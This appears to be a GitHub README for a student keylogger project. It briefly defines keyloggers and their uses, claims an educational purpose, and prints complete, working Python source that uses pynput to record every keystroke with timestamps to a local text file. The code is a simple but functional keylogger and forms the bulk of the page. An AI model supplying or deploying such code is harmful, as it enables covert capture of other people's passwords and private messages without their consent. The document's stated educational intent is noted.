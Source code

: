 ##### [LinkedIn](https://www.linkedin.com/in/allana-gibson/)

## KeyLogger Project

- A keylogger is a type of monitoring software `or malware` that is used to collect every keystroke the user types.
#### Reasons for use:
1. Hackers trying to access **personal data**.
2. IT organizations attempting to troubleshoot **technical problems**.

- I did this for educational research ONLY.

### Here is the source code of my program (in python):

```markdown
from pynput.keyboard import Key, Listener
import logging

logKeystroke = ""

logging.basicConfig(filename=(logKeystroke + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
                                                                   # prints the text with date & time
def on_press(key):
    logging.info(str(key)) #when a key is pressed it will store the info in file

with Listener(on_press=on_press) as listener:
    listener.join()
```
- The output will extract a `.txt` file on to the folder displaying every keystroke pressed.
- The user will have to terminate the program in `Task Manager` to end the application.

### Here is a picture of the output file:
![snippen2](https://user-images.githubusercontent.com/53357849/154188508-899104ba-b2a2-4264-bd5e-d8b9ad0b3fdc.png)
